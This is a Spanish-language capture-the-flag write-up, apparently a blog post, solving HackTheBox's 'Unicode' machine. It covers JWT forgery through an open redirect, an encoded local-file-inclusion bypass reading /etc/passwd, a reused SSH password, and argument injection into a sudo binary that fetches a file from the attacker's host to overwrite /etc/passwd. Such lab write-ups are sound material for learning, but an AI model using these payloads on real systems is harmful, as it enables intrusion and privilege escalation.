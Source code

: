 ```yaml
---
layout: post
title: "Write Up Unicode. "
subtitle: "Starting-Point"
category: Blog
tags: [Medium,Chunin,Linux,HTB,JWT,JSOM,SUDO,OpenRedirect,Python,Web,Vulnerability-Assessment,Injection,Session-Handling,Cryptography,Reversing,Authentication,Password-Reuse,Cookie-Manipulation,Decompilation,LFI,Argument-Injection,Fuzzing-Web,eWPT,eWPTxv2,OSWE] 
image:
  path: /assets/img/unicode/unicode.png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.11.126 -oA allports
```


![list](/assets/img/unicode/unicode-01.png){:.lead width="800" height="100" loading="lazy"}


***
### Services and Versions


```bash
nmap -p22,80 -sV -sC 10.10.11.126 -oN target
```
![list](/assets/img/unicode/Arch-2022-05-08-14-54-06.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis


### HTTP TCP-80


Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros.e ispeccionamos la web, ademas de las tecnologias de la ip ataves de la terminal o via web esto lo hacemos con wapalizzer o whatweb.


![list](/assets/img/unicode/unicode-05.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
No encontramos nada interesante. 


Inspecionado la web vemos que nos redirigue a google y esta vulnerabilidad se llama `OpenRedirect`.


![list](/assets/img/unicode/unicode-008.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Pagina web.


En el login no podemos hacer nada pero podemos registrarnos y eso es lo que vamos hacer.


![list](/assets/img/unicode/unicode-12.png){:.lead width="800" height="100" loading="lazy"}


hay una pagina que nos lleva a `/uploads` donde podemos subir un archivo y eso es lo que vamos hacer.


![list](/assets/img/unicode/unicode-13.png){:.lead width="800" height="100" loading="lazy"}


Tambien como estamos loogeados podemos ver las cookies de secion y con las ayuda de [JWT.io] vamos a tratar de recomponer la cookie que estamos usando por la de root.


[JWT.io]:(https://jwt.io/)


![list](/assets/img/unicode/unicode-15.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Encontramos un dominio hackmedia.htb que lo vamos agregar al `/etc/hosts`.


Si husmeamos la web que esta en la cookie http://hackmedia.htb/static/jwks.json.

![list](/assets/img/unicode/unicode-17.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Encontramos un JWT que esta porpartes y que toca recomponer.


Con [mkjwk.org] vamos a construir el JWT de usuario administrador, lo primero es crear la claver privada y la clave publica 

[mkjwk.org]:(https://mkjwk.org/)

![list](/assets/img/unicode/unicode-18.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Generamos las claves.


![list](/assets/img/unicode/unicode-20.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Copiamos los outputs alos campos correspondientes en JWT.io.


Editamos en `Jwt.io` la ruta de donde va a tomar el archivo `jwks.json` el cual vamos a copiar el que esta en la maquina victima y vamos aeditar la parte `n:`.


![list](/assets/img/unicode/unicode-21.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Metemos el valor de n: que generamos en [mkjwk.org].


Ahora con todo eso nos montamos un servidor con python y editamos la ip la que esta apuntando y reeplazamos por `http://hackmedia.htb/static/../redirect?url=10.10.16.14/jwks.json` y le damos en generar y esto nos crea la cokie  del usuaro admin como ya lo crea lo reemplazamos en donde estamos loogeados y ya somo el usuario adminitrador.


![list](/assets/img/unicode/unicode-23.png){:.lead width="800" height="100" loading="lazy"}


Como vemos que en la url tiene un page lo que podemos pensar que es susecptible a `local file incusion` pero probando esta en en la lista negra algun os caracteres por lo que `/` vamos a convertirlos a `%ef%bc%8f%` para bypaser esa resticcion.


![list](/assets/img/unicode/unicode-24.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/unicode/unicode-25.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Lo bypaseamos con `%ef%bc%8f%..%ef%bc%8f%..%ef%bc%8f%..%ef%bc%8f%etc/passwd`.


![list](/assets/img/unicode/unicode-26.png){:.lead width="800" height="100" loading="lazy"}


Encontramos un usuarioc code y enumerando de la misma manera la maquina y las rutas encontramos un `db.yaml`


![list](/assets/img/unicode/unicode-27.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/unicode/unicode-28.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Encontramos unas contraseña `B3stC0d3r2021@@!`.


Como siempres se reutilizan contraseñas podemos tratar de conectarnos por SSH.


![list](/assets/img/unicode/unicode-29.png){:.lead width="800" height="100" loading="lazy"}


```shell
sshpass -p 'B3stC0d3r2021@@!' code@10.10.10.11.126
```


{:.note}
Ya podemos buscar la flag de bajos privileguios en el escritorip del usuario `code`. 


***

## Explotation


Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar de privilegios, ademas hasta que se ejecute los anteriores podemos buscar los permisos con el comado find o tareas crond o tareas que esperen ejecucion.


Si hacemos un `sudo -l` vemos que podemos ejecutar `treport` como root sin contraseña.


Nos tranferimos el binario a nuestra maquina para analizarlo con mas profundidad con `pyinstractor`.


![list](/assets/img/unicode/unicode-29.png){:.lead width="800" height="100" loading="lazy"}


```shell
python pyinstxtractor.py treport 
```

{:.note}
Nos extrae el repor que debe compilarse.


Ahora con pycdc  vamos a ejecutarlo y pasrle el report que no arrojo pero primero se debe compilar con `cdmake CMakelist.txt` dentro del repositorio que nos clonamos.


![list](/assets/img/unicode/unicode-35.png){:.lead width="800" height="100" loading="lazy"}


Ahora si por fin. ejecutamos.


![list](/assets/img/unicode/unicode-37.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Hay badchars de ahi que no podemosm usar bien treport.


![list](/assets/img/unicode/unicode-38.png){:.lead width="800" height="100" loading="lazy"}


```shell
{--config,/root/root}
```

{:.note}
Esto se hace en el campo de `Enter the IP/file_name:`.


Ahora si queremos loogearnos como root remplazamos el `/etc/shadow` por uno donde altermos la pass del usuario `root` y nos montamos un servido con python y hacemos lo siguiente:


![list](/assets/img/unicode/unicode-42.png){:.lead width="800" height="100" loading="lazy"}


```shell
{10.10.16.14/passwd,-o,/etc/passwd}
```


{:.note}
Remmplazamos passwd y lo ultimo es buscar la flag de superusuario en el escritorio de root.


***

```shell
🎉 Felicitaciones ya has comprometido Unicode de HackTheBox 🎉
```
{:.centered}
***


Back to [Certification eWPT](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification eWPTv2](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification OSWE](){:.heading.flip-title}
{:.read-more}

